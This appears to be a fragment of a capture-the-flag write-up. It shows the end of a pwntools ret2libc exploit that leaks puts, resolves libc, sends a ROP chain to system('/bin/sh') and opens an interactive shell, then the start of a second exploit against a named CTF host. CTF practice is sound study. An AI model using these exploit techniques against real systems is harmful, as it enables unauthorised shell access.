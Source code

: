 ```python
 19 payload += p64(main)
 20 
 21 r.sendlineafter('encrypted\n',payload)
 22 r.recvline() 
 23 r.recvline()
 24 
 25 puts_addr = u64(r.recvuntil('\n')[:-1].ljust(8,'\0'))
 26 print(hex(puts_addr))
 27 
 28 libc = LibcSearcher('puts',puts_addr)
 29 offset = puts_addr-libc.dump('puts')
 30 binsh = offset+libc.dump('str_bin_sh')
 31 system = offset+libc.dump('system')
 32 
 33 r.sendlineafter('choice!\n','1')
 34 
 35 payload = '\0'+'a'*(0x50-1+8)
 36 payload += p64(ret)
 37 payload += p64(pop_rdi)
 38 payload += p64(binsh)
 39 payload += p64(system)
 40   
 41 r.sendlineafter('encrypted\n',payload)
 42  
 43 r.interactive()
```

### Human's Nature

EXP:

```python
from pwn import*
context(arch='amd64', os='linux', log_level='debug')


def uu32(data): return u32(data.ljust(4, '\x00'))
def uu64(data): return u64(data.ljust(8, '\x00'))


p = remote('pwn.blackbird.wang', 9505)
# p = process(['./hijack'],env={"LD_PRELOAD":"./libc-2.27.so"})
elf = ELF('./hijack')
libc = ELF('./libc-2.27.so')


